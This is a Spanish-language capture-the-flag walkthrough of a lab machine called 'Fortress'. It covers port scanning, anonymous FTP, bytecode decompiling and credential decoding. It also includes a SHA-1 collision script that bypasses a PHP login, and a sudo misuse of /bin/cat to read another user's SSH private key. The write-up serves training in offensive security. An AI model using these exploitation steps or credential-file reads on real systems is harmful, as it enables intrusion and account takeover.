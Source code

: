###Tags: `` `` ``

# Escaneo (*22,5581,5752,7331*)

```css
sudo nmap -p- --open -sSCV --min-rate 4000 -vvv -n -Pn <ip> -oN escaneo
```
![image](https://github.com/user-attachments/assets/22e7607e-cb95-468b-a4d8-de6d863b9345)

-  En la descripción del CTF nos dice que agreguemos estos dos dominios al **/etc/hosts** `fortress y temple.fortress`

# FTP (*anonymous*)

Nos conectamos como el user **anonymous** sin proporcionar contraseña y nos traemos el ``.txt`` y un `.file`

```ruby
 ftp 10.10.11.86 -p 5581
```
![image](https://github.com/user-attachments/assets/9db41c68-2eed-4b8e-bb7b-2ab1c7d4e0a9)

Le hacemos un cat al archivo `marked.txt` y dice lo siguiente:

```
If youre reading this, then know you too have been marked by the overlords... Help memkdir /home/veekay/ftp I have been stuck inside this prison for days no light, no escape... Just darkness... Find the backdoor and retrieve the key to the map... Arghhh, theyre coming... HELLLPPPPPmkdir /home/veekay/ftp
```

Vemos una ruta `home/veekay/ftp`, un usuario `veekay`
Y el archivo `.file` es un es un archivo de bytes compilado en Python 2.7

![image](https://github.com/user-attachments/assets/0b4b41a8-189a-49d0-aad2-e26822e44e47)

### Descompilar 

Vamos a descompilar el archivo de esta manera usando `uncompyle2`, este repo lo que hace es descompilar el código de bytes de la versión 2.5, 2.6, 2.7 de Python, 
Pasos:

```ruby
https://github.com/BlueEffie/uncompyle2.git
cd uncompyle2
sudo python2 setup.py install
cd ..
uncompyle2 .file
```

![image](https://github.com/user-attachments/assets/f8ee0d00-43d5-4e8e-9f6e-899b7e872389)

Creé un pequeño script en Python que me permitiría decodificar las credenciales que espera el servicio. 

```python
from Crypto.Util.number import long_to_bytes 

usern = 232340432076717036154994 
passw = 10555160959732308261529999676324629831532648692669445488 

print(long_to_bytes(usern)) 
print(long_to_bytes(passw))
```

![image](https://github.com/user-attachments/assets/020333d9-94df-4190-90cb-603ade47ab34)

Ahora como vemos llama al puerto 5752 que nos podemos conectar por **telnet** poniendo estas credenciales 

```ruby
 telnet <ip> 5752
```

Observamos como una clave `t3mple_0f_y0ur_51n5`

![image](https://github.com/user-attachments/assets/ab1fe7d9-3197-42e8-a2a7-86d784d4cfdf)

# Port 7331

En la web ponemos `http://fortress:7331/t3mple_0f_y0ur_51n5.php` y en código fuente vemos lo siguiente

![image](https://github.com/user-attachments/assets/19660ad2-3058-4890-bd15-f780b3f345a9)

Probando con mas extensiones, en  `http://fortress:7331/t3mple_0f_y0ur_51n5.html`

![image](https://github.com/user-attachments/assets/0a54cb88-1047-4354-aea0-105015713157)

Y acá la verdad probando cosas no encontré nada y tuve que ver como se hacia y es de esta manera:
Primero tenemos que ir a este [Enlace](https://github.com/bl4de/ctf/blob/master/2017/BostonKeyParty_2017/Prudentialv2/Prudentialv2_Cloud_50.md) y copiarnos este script:

```python
#!/usr/bin/env python
import requests

# this is copy/paste from Hex editor - two different files with the same SHA1 checksum
name = '255044462D312E33 0A25E2E3 CFD30A0A 0A312030 206F626A 0A3C3C2F 57696474 68203220 3020522F 48656967 68742033 20302052 2F547970 65203420 3020522F 53756274 79706520 35203020 522F4669 6C746572 20362030 20522F43 6F6C6F72 53706163 65203720 3020522F 4C656E67 74682038 20302052 2F426974 73506572 436F6D70 6F6E656E 7420383E 3E0A7374 7265616D 0AFFD8FF FE002453 48412D31 20697320 64656164 21212121 21852FEC 09233975 9C39B1A1 C63C4C97 E1FFFE01 7F46DC93 A6B67E01 3B029AAA 1DB2560B 45CA67D6 88C7F84B 8C4C791F E02B3DF6 14F86DB1 690901C5 6B45C153 0AFEDFB7 6038E972 722FE7AD 728F0E49 04E046C2 30570FE9 D41398AB E12EF5BC 942BE335 42A4802D 98B5D70F 2A332EC3 7FAC3514 E74DDC0F 2CC1A874 CD0C7830 5A215664 61309789 606BD0BF 3F98CDA8 044629A1 3C68746D 6C3E0A3C 73637269 7074206C 616E6775 6167653D 6A617661 73637269 70742074 7970653D 22746578 742F6A61 76617363 72697074 223E0A3C 212D2D20 40617277 202D2D3E 0A0A7661 72206820 3D20646F 63756D65 6E742E67 6574456C 656D656E 74734279 5461674E 616D6528 2248544D 4C22295B 305D2E69 6E6E6572 48544D4C 2E636861 72436F64 65417428 31303229 2E746F53 7472696E 67283136 293B0A69 66202868 203D3D20 27373327 29207B0A 20202020 646F6375 6D656E74 2E626F64 792E696E 6E657248 544D4C20 3D20223C 5354594C 453E626F 64797B62 61636B67 726F756E 642D636F 6C6F723A 5245443B 7D206831 7B666F6E 742D7369 7A653A35 3030253B 7D3C2F53 54594C45 3E3C4831 3E262378 31663634 383B3C2F 48313E22 3B0A7D20 656C7365 207B0A20 20202064 6F63756D 656E742E 626F6479 2E696E6E 65724854 4D4C203D 20223C53 54594C45 3E626F64 797B6261 636B6772 6F756E64 2D636F6C 6F723A42 4C55453B 7D206831 7B666F6E 742D7369 7A653A35 3030253B 7D3C2F53 54594C45 3E3C4831 3E262378 31663634 393B3C2F 48313E22 3B0A7D0A 0A3C2F73 63726970 743E0A0A'

password = '25504446 2D312E33 0A25E2E3 CFD30A0A 0A312030 206F626A 0A3C3C2F 57696474 68203220 3020522F 48656967 68742033 20302052 2F547970 65203420 3020522F 53756274 79706520 35203020 522F4669 6C746572 20362030 20522F43 6F6C6F72 53706163 65203720 3020522F 4C656E67 74682038 20302052 2F426974 73506572 436F6D70 6F6E656E 7420383E 3E0A7374 7265616D 0AFFD8FF FE002453 48412D31 20697320 64656164 21212121 21852FEC 09233975 9C39B1A1 C63C4C97 E1FFFE01 7346DC91 66B67E11 8F029AB6 21B2560F F9CA67CC A8C7F85B A84C7903 0C2B3DE2 18F86DB3 A90901D5 DF45C14F 26FEDFB3 DC38E96A C22FE7BD 728F0E45 BCE046D2 3C570FEB 141398BB 552EF5A0 A82BE331 FEA48037 B8B5D71F 0E332EDF 93AC3500 EB4DDC0D ECC1A864 790C782C 76215660 DD309791 D06BD0AF 3F98CDA4 BC4629B1 3C68746D 6C3E0A3C 73637269 7074206C 616E6775 6167653D 6A617661 73637269 70742074 7970653D 22746578 742F6A61 76617363 72697074 223E0A3C 212D2D20 40617277 202D2D3E 0A0A7661 72206820 3D20646F 63756D65 6E742E67 6574456C 656D656E 74734279 5461674E 616D6528 2248544D 4C22295B 305D2E69 6E6E6572 48544D4C 2E636861 72436F64 65417428 31303229 2E746F53 7472696E 67283136 293B0A69 66202868 203D3D20 27373327 29207B0A 20202020 646F6375 6D656E74 2E626F64 792E696E 6E657248 544D4C20 3D20223C 5354594C 453E626F 64797B62 61636B67 726F756E 642D636F 6C6F723A 5245443B 7D206831 7B666F6E 742D7369 7A653A35 3030253B 7D3C2F53 54594C45 3E3C4831 3E262378 31663634 383B3C2F 48313E22 3B0A7D20 656C7365 207B0A20 20202064 6F63756D 656E742E 626F6479 2E696E6E 65724854 4D4C203D 20223C53 54594C45 3E626F64 797B6261 636B6772 6F756E64 2D636F6C 6F723A42 4C55453B 7D206831 7B666F6E 742D7369 7A653A35 3030253B 7D3C2F53 54594C45 3E3C4831 3E262378 31663634 393B3C2F 48313E22 3B0A7D0A 0A3C2F73 63726970 743E0A0A'

print '[+] create URL decoded strings to send as GET parameters [name] and [password]...'
name = ''.join(name.split(' '))
password = ''.join(password.split(' '))

namestr = ''.join(['%' + name[i] + name[i + 1]
           for i in range(0, len(name)) if i % 2 == 0])

passwordstr = ''.join(['%' + password[j] + password[j + 1]
           for j in range(0, len(password)) if j % 2 == 0])

print '[+] sending request to http://54.202.82.13/?name=[name]&password=[password]'

u = 'http://fortress:7331/t3mple_0f_y0ur_51n5.php?user={}&pass={}'.format(namestr, passwordstr)

resp = requests.get(u, headers={
    'Host': 'fortress'
})

print '[+] read FLAG from response...\n\n'
print resp.content
```

Ahora lo ejecutamos y obtenemos un archivo llamado `m0td_f0r_j4x0n.txt`

![image](https://github.com/user-attachments/assets/570a6019-fda2-4e9d-9628-deca889f5da0)

Encontramos una clave `id_rsa` que puede ser del user `h4rdy`

![image](https://github.com/user-attachments/assets/40c782df-a40a-4bfe-85a8-a2da51f09e57)

## SSH (`h4rdy`)

Lo que tenemos que hacer es iniciar sesión con h4rdy usuario con el siguiente comando:

```ruby
 nano id_rsa
 chmod 600 id_rsa
 ssh -i id_rsa h4rdy@<IP> -t "bash --noprofile"
```

![image](https://github.com/user-attachments/assets/85459f49-11e7-4c27-906f-54081be12ffa)

# Escalada (`j4x0n`)

Poniendo `sudo -l` observamos que podemos ejecutar **/bin/cat** como el usuario *j4x0n*

![image](https://github.com/user-attachments/assets/e7cd23e7-b0af-41d9-a6f2-e96ac06e43d4)
![image](https://github.com/user-attachments/assets/e5c71fac-56a4-4e23-bd86-2a66a65f9882)

Ahora tratamos de obtener su **id_rsa** de esta manera  y tuvimos éxito! ---> `/usr/bin/sudo -u j4x0n /bin/cat /home/j4x0n/.ssh/id_rsa`

![image](https://github.com/user-attachments/assets/3f9f3171-6550-4f44-8057-3bee03f9a9a3)

Nos conectamos de esta manera como el user **j4x0n**

```ruby
 nano j4x0n_rsa
 chmdo 600 j4x0n_rsa
 ssh -i j4x0n_rsa j4x0n@<IP> -t "bash --noprofile" 
```
![image](https://github.com/user-attachments/assets/ca51b137-3f84-43a3-ba53-31b604a7079a)

# Escalada ``ROOT``

En el directorio `/data` , tenemos un archivo `setup.sh` que se utiliza para configurar la máquina cada vez que se enciende.
Puedo encontrar las banderas y la contraseña de root aquí

![image](https://github.com/user-attachments/assets/de2a589c-f439-4424-9b49-6912e9178747)

